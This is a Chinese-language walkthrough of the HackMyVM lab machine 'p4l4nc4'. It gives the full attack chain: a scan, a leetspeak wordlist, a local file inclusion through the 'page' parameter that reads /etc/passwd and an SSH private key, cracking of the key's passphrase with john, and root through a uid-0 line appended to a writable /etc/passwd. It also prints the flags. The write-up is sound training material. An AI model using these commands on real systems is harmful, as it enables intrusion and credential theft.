

# p4l4nc4.

> https://hackmyvm.eu/machines/machine.php?vm=p4l4nc4
> 

官方难度是 简单， 但是感觉像是 中等 难度

## 信息收集&扫描

```c
arp-scan -I eth1 -l
Interface: eth1, type: EN10MB, MAC: 00:0c:29:08:c8:e3, IPv4: 192.168.56.4
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1    0a:00:27:00:00:23       (Unknown: locally administered)
192.168.56.2    08:00:27:14:41:e1       PCS Systemtechnik GmbH
192.168.56.3    08:00:27:6a:06:79       PCS Systemtechnik GmbH
```

```c
nmap -sT -min-rate 10000 -p- 192.168.56.3
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-01 01:40 EST
Nmap scan report for 192.168.56.3
Host is up (0.00067s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:6A:06:79 (Oracle VirtualBox virtual NIC)
```

```c
nmap -sT -sV -O -p 22,80 192.168.56.3    
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-01 01:41 EST
Nmap scan report for 192.168.56.3
Host is up (0.00080s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
MAC Address: 08:00:27:6A:06:79 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```c
nmap -script=vuln -p 22,80 192.168.56.3
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-01 01:42 EST
Nmap scan report for 192.168.56.3
Host is up (0.0010s latency).

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum: 
|_  /robots.txt: Robots file
MAC Address: 08:00:27:6A:06:79 (Oracle VirtualBox virtual NIC)
```

## 扫描发现`robots`文件，访问



没看懂，丢给`GPT` ，下边是原文回答

```c
这是关于**"Palanca Negra Gigante"（巨型黑羚羊）**的一段介绍，它是一种稀有的非洲羚羊亚种，主要分布在安哥拉。以下是关键信息的整理和翻译：

特征与分布
巨型黑羚羊是所有黑羚羊亚种中体型最大的一个，是非洲最稀有的有蹄类动物之一。它是安哥拉的特有物种，目前仅分布在两个地方：

Cangandala 国家公园
Luando 综合自然保护区
历史背景
在安哥拉内战（1975-2002）之后，这种动物的生存状况几乎无人知晓，曾一度被认为可能已经灭绝。

2004年，安哥拉天主教大学的科研团队在Dr. Pedro Vaz Pinto的带领下，于Cangandala国家公园南部拍摄到仅存的一群巨型黑羚羊的照片，证实它们在战争结束后仍然幸存。
国家象征

巨型黑羚羊被视为安哥拉的国家象征，代表着安哥拉人民的骄傲。
安哥拉国家足球队被称为“黑羚羊”（Palancas Negras）。
安哥拉航空公司（TAAG）的标志也以这种羚羊为基础。
在安哥拉首都罗安达，“Palanca”也是一个行政分区的名字。
文化意义
在非洲神话中，羚羊通常象征活力、速度、美丽和视觉敏锐。

这段文字的原文由于字符编码问题显示了一些乱码，可能需要修复编码格式，例如 UTF-8。
```

这是修复编码后的

```c
A palanca-negra-gigante é uma subespécie de palanca-negra. De todas as subespécies, esta destaca-se pelo grande tamanho, sendo um dos ungulados africanos mais raros. Esta subespécie é endêmica de Angola, apenas existindo em dois locais, o Parque Nacional de Cangandala e a Reserva Natural Integral de Luando. Em 2002, após a Guerra Civil Angolana, pouco se conhecia sobre a sobrevivência de múltiplas espécies em Angola e, de facto, receava-se que a Palanca Negra Gigante tivesse desaparecido. Em janeiro de 2004, um grupo do Centro de Estudos e Investigação Científica da Universidade Católica de Angola, liderado pelo Dr. Pedro vaz Pinto, obteve as primeiras evidências fotográficas do único rebanho que restava no Parque Nacional de Cangandala, ao sul de Malanje, confirmando-se assim a persistência da população após um duro período de guerra.

Atualmente, a Palanca Negra Gigante é considerada como o símbolo nacional de Angola, sendo motivo de orgulho para o povo angolano. Como prova disso, a seleção de futebol angolana é denominada de palancas-negras e a companhia aérea angolana, TAAG, tem este antílope como símbolo. Palanca é também o nome de uma das subdivisões da cidade de Luanda, capital de Angola. Na mitologia africana, assim como outros antílopes, eles simbolizam vivacidade, velocidade, beleza e nitidez visual.
```

没思路，打算生成字典

## 生成字典

使用`cewl` + `john`生成字典

```c
cewl http://192.168.56.3/robots.txt > dict.txt
john --wordlist=dict.txt --rules --stdout > dict-john.txt
```

然后使用其扫目录

```c
dirsearch -u 192.168.56.3 -x 403 -w dict-john.txt 
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict
  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 5081
Output File: /root/Desktop/test/reports/_192.168.56.3/_25-01-01_02-21-22.txt
Target: http://192.168.56.3/
[02:21:22] Starting: 
Task Completed
```

无结果，看了下大佬们的思路，可以发现靶机用户名是`1337`格式的，`p4l4nc4` 是 `palanca`（葡萄牙语中的“羚羊”）的网络变体


```c
0   1    3    4    5    6    7
o   l    e    a    s    g    t 
```

使用`sed`命令进行替换字符

```c
cat dict.txt | sed -re 's/a/4/gi' -re 's/o/0/gi' -re 'a/i/1/gi' -re 'a/e/3/gi' -re 'a/s/5/gi' -re 'a/g/6/gi' -re 'a/t/7/gi' -z > 1.txt
```

再次扫描目录，发现还是没扫出来，使用大佬们的参数

```c
cat dict.txt|sed -re 's/a/4/gi' -re 's/e/3/gi' -re 's/i|l/1/gi' > 2.txt
```

扫描目录，扫出来了，我的参数多了点替换规则，然后把一些字符给替换掉了

```c
dirsearch -u 192.168.56.3 -w 2.txt

Target: http://192.168.56.3/

[03:10:31] Starting: 
[03:10:31] 301 -  312B  - /n3gr4  ->  http://192.168.56.3/n3gr4/
```

## 进行模糊

得到目录后再进行模糊扫描

无结果

```c
dirsearch -u 192.168.56.3/n3gr4 -w 1.txt -e php,zip,txt
```

尝试大小写

```c
cat 1.txt | tr A-Z a-z > 2.txt
```

```c
gobuster dir -u 192.168.56.3/n3gr4 -w 2.txt -x .php
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.3/n3gr4
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                2.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/m414nj3.php          (Status: 500) [Size: 0]
Progress: 258 / 260 (99.23%)
===============================================================
Finished
===============================================================

```

得到 `/m414nj3.php` ，应该是有参数的，再进行模糊

```c
# 无果
wfuzz -c -w 2.txt --hh 0 -u http://192.168.56.3/n3gr4/m414nj3.php?FUZZ=/etc/passwd
```

换个字典

```c
wfuzz -c -w /usr/share/wordlists/wfuzz/general/common.txt --hh 0 -u http://192.168.56.3/n3gr4/m414nj3.php?FUZZ=/etc/passwd                                                                                    

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.56.3/n3gr4/m414nj3.php?FUZZ=/etc/passwd
Total requests: 951

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                     
=====================================================================

000000589:   200        22 L     26 W       1066 Ch     "page"
```

得到参数`page` 

## 读取文件

尝试读取`/etc/passwd`文件


发现用户`p4l4nc4` ,尝试读取其家目录文件，成功读取


再尝试读取其`ssh`私钥文件


尝试进行`ssh`私钥登录，兼容复制到`rsa.key`文件

```c
chmod 700 rsa.key

ssh -i rsa.key p4l4nc4@192.168.56.3
The authenticity of host '192.168.56.3 (192.168.56.3)' can't be established.
ED25519 key fingerprint is SHA256:F1H2S93bx6fgnjMCinI5RMZf/XIJS3u8KjLS15lO6rU.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.56.3' (ED25519) to the list of known hosts.
Load key "rsa.key": error in libcrypto
p4l4nc4@192.168.56.3's password:
```

失败，尝试爆破该密钥

```c
# 获取密钥
curl http://192.168.56.3/n3gr4//m414nj3.php?page=/home/p4l4nc4/.ssh/id_rsa > id_rsa

# 将密钥转换为john能识别的
ssh2john id_rsa > hash

# 使用rockyou字典，该字典爆破成功率较高
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

爆破成功，获得密码

```c
id_rsa:friendster
```

尝试登陆`ssh` ，登陆成功

```c
ssh p4l4nc4@192.168.56.3
p4l4nc4@192.168.56.3's password: 
Linux 4ng014 6.1.0-27-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.115-1 (2024-11-01) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Jan  2 03:51:02 2025 from 192.168.56.4
p4l4nc4@4ng014:~$ 
```

## 提权

查看`/etc/passwd`文件

```c
p4l4nc4@4ng014:~$ ls -al /etc/passwd
-rw-rw-rw- 1 root root 1066 Nov 13 12:28 /etc/passwd
```

发现权限配置不当，可直接写，直接修改即可

添加一哥root权限用户`hack`，密码`123456`

```c
p4l4nc4@4ng014:~$ echo 'hack:zSZ7Whrr8hgwY:0:0::/root/:/bin/bash' >>/etc/passwd
```

## flag

```c
root@4ng014:/home/p4l4nc4# cat user.txt
HMV{6cfb952777b95ded50a5be3a4ee9417af7e6dcd1}

root@4ng014:/root# cat root.txt
HMV{4c3b9d0468240fbd4a9148c8559600fe2f9ad727}
```